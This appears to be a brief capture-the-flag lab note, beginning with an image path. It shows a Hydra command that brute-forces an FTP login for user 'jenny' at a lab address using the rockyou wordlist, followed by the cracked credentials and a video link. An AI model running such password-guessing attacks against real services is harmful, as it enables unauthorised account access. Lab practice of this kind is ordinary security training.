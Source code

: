 `hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.156.179`
Username: jenny
Password: 987654321

CHeck out https://www.youtube.com/watch?v=afCwMFpZS1M for awesome details
This room is fun!
